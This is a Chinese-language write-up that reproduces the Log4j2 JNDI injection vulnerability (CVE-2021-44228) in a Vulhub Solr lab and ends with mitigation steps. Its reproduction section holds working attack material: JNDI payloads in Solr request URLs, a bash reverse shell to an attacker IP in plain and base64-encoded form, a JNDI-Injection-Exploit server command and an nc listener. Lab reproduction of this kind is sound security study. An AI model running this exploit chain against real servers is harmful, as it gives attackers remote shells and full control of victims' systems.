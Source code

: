 
# 0X00 漏洞信息
Apache Log4j是Apache的一个开源项目 ，Apache log4j2是Log4j的升级版本，用户可以控制日志信息输送的目的地为控制台、文件、GUI 组件等，通过定义每一条日志信息的级别，能够更加细致地控制日志的生成过程。<br />Log4j-2中存在JNDI注入漏洞，当程序将用户输入的数据进行日志记录时，即可触发此漏洞，成功利用此漏洞可以在目标服务器上执行任意代码。该漏洞影响Apache Struts、Apache Solr、Apache Druid、Apache Filnk等众多组件，漏洞影响面大,危害性高，建议客户尽快自查在用软件系统是否受影响，采取措施防护此漏洞。


# 0X01 漏洞概述
| 漏洞名称 | Apache Log4j2远程代码执行漏洞 |
| --- | --- |
| 漏洞等级 | 高危 |
| CVE编号 | CVE-2021-44228 |
| 其他编号 | 暂无 |
| 披露时间 | 2021/12/09 |
| 分数 | 10.0 |
| CVSS | 3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H |
| 披露链接 | [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) |


# 0X02 影响范围

- 2.0-beta9 <= Apache Log4j <= 2.3
- 2.4 <= Apache Log4j <= 2.12.1
- 2.13.0<= Apache Log4j <= 2.15.0-rc1


# 0X03 环境搭建
**使用Vulhub搭建漏洞复现环境**<br />参考地址：[https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md)

1、将Vulhub下载到本地，并进入log4j2漏洞目录
```
cd /root/vulhub-master/log4j/CVE-2021-44228/
docker-compose up -d
```
![image.png](./assets/1669610143166-066556a0-f684-4fca-b529-07f16a5880a0.png)

2、在浏览器访问http://IP:8983
![image.png](./assets/1669610200047-7edbd500-a8cb-45bc-ada4-981c3053aa53.png)

3、环境搭建成功


# 0X04 漏洞原理
`org.apache.logging.log4j.core.pattern.MessagePatternConverter`类的`format()`方法发现日志中包含`${`就会将表达式的内容替换为表达式解析后的内容，而不是表达式本身，从而导致攻击者构造符合要求的表达式供系统执行。`${`可使用的关键词非常多，例如：`${java:os}`、`${hostName}`、`${jndi:logging/context-name}`等。<br />`org.apache.logging.log4j.core.lookup.StrSubstitutor`中提取参数并通过lookup进行内容替换，当日志在打印时遇到`${`后，`Interpolator`类以`：`号作为分割，将表达式内容分割成两部分，前面部分作为prefix，后面部分作为key。然后通过prefix去找对应的lookup，通过对应的lookup实例调用lookup方法，最后将key作为参数带入执行。

**JNDI注入：**<br />        目前网络上传播广泛的POC：`${jndi:ldap://my-ip/exp}`除了利用到log4j的递归解析，同样涉及到了JNDI注入，所谓的JNDI注入就是当上文代码中JNDI变量可控时引发的漏洞，它将导致远程class文件加载，从而导致远程代码执行。当这条语句被传入到log4j日志文件中，lookup会将JNDI注入可执行语句执行，程序会通过ldap协议访问my-ip这个地址，然后my-ip就会返回一个包含java代码的class文件的地址，然后程序再通过返回的地址下载class文件并执行，从而达成漏洞利用目的。

**漏洞大致利用流程：**

1. 向目标发送指定payload，目标对payload进行解析执行，然后会通过JNDI链接远程服务，当JNDI服务收到请求之后，将请求进行重定向到恶意 java class的地址。
2. 目标服务器收到重定向请求之后，下载恶意class并执行其中的代码，从而执行系统命令。


# 0X05 漏洞复现
`${jndi:dns://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：
```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

**验证漏洞是否存在**<br />1、首先在DNSlog平台拿到一个域名
![image.png](./assets/1669610975442-3bb2d103-2436-4b1c-a07e-e4f7042f3efa.png)

2、用到管理的接口的action参数构造payload，并访问
```
http://192.168.10.9:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.vqdjxb.dnslog.cn}
```
![image.png](./assets/1669611095733-011588aa-283b-4ea4-829c-bb4f0bc02ea2.png)

3、访问之后，dnslog平台出现数据，显示出当前java版本，证明漏洞存在
![image.png](./assets/1669611120105-abe411f4-4141-4312-a836-12c5e3fd1b9b.png)

**反弹shell**<br />1、构造反弹shell命令
```
bash -i >& /dev/tcp/192.168.10.38/6666 0>&1
```

2、进行编码
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjM4LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i} 
```
[<br />](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)
3、然后在kali上利用工具（[JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)）来启动ldap和web服务
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjM4LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i} " -A "192.168.10.38"
```
![image.png](./assets/1669612258515-5a28ced7-1eb0-4370-befe-57f639280f29.png)

4、新开启一个kali窗口监听
```
nc -lvvnp 6666
```
![image.png](./assets/1669612305869-0ca2140f-4749-4fd5-8e3c-fb43dcf851f7.png)

5、访问
```
http://192.168.10.9:8983/solr/admin/cores?action=${jndi:ldap://192.168.10.38:1389/byxqhk}
```
成功反弹
![image.png](./assets/1669612530859-8a5acd2a-981e-433f-9610-f01726c2cf00.png)


# 0X06 解决方案
目前官方已发布测试版本修复该漏洞，受影响用户可先将Apache Log4j2所有相关应用到该版本。<br />下载链接：[https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)

**临时缓解方案**<br />若受影响用户暂时无法进行升级操作，可以使用systemtap来临时缓解：

1. 添加jvm启动参数:`-Dlog4j2.formatMsgNoLookups=true `
2. 在应用classpath下添加[log4j2.component.properties](http://log4j2.component.properties/)配置文件，文件内容为：log4j2.formatMsgNoLookups=true

![image.png](./assets/1669613361258-0498ee19-ad81-4f6c-b496-b8f5ffd473a9.png)

3. 建议JDK使用11.0.1、8u191、7u201、6u211及以上的高版本
4. 限制受影响应用对外访问互联网，并在边界对dnslog相关域名访问进行检测。

